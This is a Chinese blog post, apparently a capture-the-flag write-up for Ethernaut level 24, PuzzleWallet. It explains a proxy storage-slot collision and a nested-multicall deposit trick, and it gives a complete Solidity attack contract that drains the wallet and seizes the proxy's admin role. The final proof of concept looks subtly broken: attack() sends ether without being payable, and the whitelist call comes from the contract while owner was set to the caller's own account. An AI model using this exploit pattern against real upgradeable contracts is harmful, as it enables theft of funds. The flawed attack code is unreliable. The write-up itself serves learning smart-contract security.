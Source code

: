 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-18'
date: 2022-12-20 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

#### 第二十四关  PuzzleWallet 思路与POC

#### 目标: 几个精明的程序员构建了一个只有管理员可更新逻辑的钱包合约,劫持此钱包并成为代理合约的管理员

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";
//puzzle代理合约
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }
 //申请成为管理员函数,无任何限制
    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}
//puzzle逻辑实现合约
contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    
    mapping(address => bool) public whitelisted; //白名单map
    mapping(address => uint256) public balances;//地址->余额map
    
//初始化钱包,要求maxBalance变量为0
    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }
    //白名单限制  
    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }
   //设置钱包最大余额msg.sender必须在白名单上
    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
 //只有owner能新增白名单地址
    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }
//只有白名单上的用户才能往钱包里冲钱
    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] += msg.value;
    }
//用户余额转出 没有重入漏洞
    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted    {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }
//同时调用多个逻辑合约的函数,但是deposit函数只允许被调用一次
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        //循环取出函数选择器
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
              //注意一点 require判断是表达式结果为false的时候触发
               require(!depositCalled, "Deposit can only be called once");
              // 防止用户重复存入token
               depositCalled = true;
            }
       //call函数没防止回调,应该if(selector == this.multicall.selector){revert}
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
/*
发现问题了嘛(逻辑漏洞):合约创建者似乎忘记了代理合约与逻辑实现合约的存储槽是共享的
address public pendingAdmin; slot0 <-   address public owner; slot0
address public admin;  slot1 <-   uint256 public maxBalance; slot1

poc思路:
代理合约上的pendingAdmin变量可以没有任何限制的修改,但是它对应的是逻辑合约的owner(禁止修改)
替换了owner变量之后我们就劫持了wallet合约!!
之后仅需要修改 maxBalance变量即可对于修改代理合约的admin(flag)

*/
```

#####  所以我们得出以下流程:
##### 1.PuzzleProxy.proposeNewAdmin() -> PuzzleWallet.addToWhitelist(you address)

##### 执行完1之后:

##### 此时我们成功劫持了逻辑合约,接下来就是想办法将合约的余额全部提现,然后才能调用setMaxBalance修改admin 

##### 那么如何将合约的余额全部提现呢,当前合约余额是0.001ETH.我们此时成为了白名单用户余额是0.

##### 问题关键在于需要我们的余额大于合约余额或者保持跟合约余额保持一致,如何做到看multicall函数.

##### 此时multicall函数允许我们调用deposit函数一次, 合约余额:0.002ETH user:0.001ETH.

##### 那么如果我们构建calldata:

##### {

##### 使其先调用deposit一次{0.001ETH} 

##### 然后回调multicall从而刷新depositCalled值,然后再调用deposit呢?{两次调用用户余额0.002ETH}

##### }

##### 由于以上括起来的操作都是在一次交易中完成的,所以实际上我们仅发送了0.001ETH到合约

##### 所以就得到了 合约余额:0.002ETH user:0.003ETH.

2. ##### PuzzleWallet.execute(you address ,合约所有余额) -> PuzzleWallet.setMaxBalance(uint256(you address))

  ##### 完成 :ok_hand:

#### 最终POC:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Vulnerability/PuzzleWallet.sol";

contract hackWallet {
    PuzzleProxy public px = PuzzleProxy(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    PuzzleWallet public wallet = PuzzleWallet(payable(0x12E9E06d6AaA6941a0dd49C6D21F01D6c0f0CbeA));

    function attack() public {
        //构造calldata
        bytes[] memory depositSelector = new bytes[](1);
        depositSelector[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory nestedMulticall = new bytes[](2);
        nestedMulticall[0] = abi.encodeWithSelector(wallet.deposit.selector);
        nestedMulticall[1] = abi.encodeWithSelector(wallet.multicall.selector, depositSelector);

        //替换wallet合约中的owner
        px.proposeNewAdmin(msg.sender);
        wallet.addToWhitelist(msg.sender);

        //构造calldata使用户余额大于合约余额
        wallet.multicall{value: 0.001 ether}(nestedMulticall);
        //提现合约所有余额并且改变solt1 ,也就是改变proxy合约中的admin
        wallet.execute(msg.sender, 0.002 ether, "");
        wallet.setMaxBalance(uint256(uint160(msg.sender)));
    }
}

```

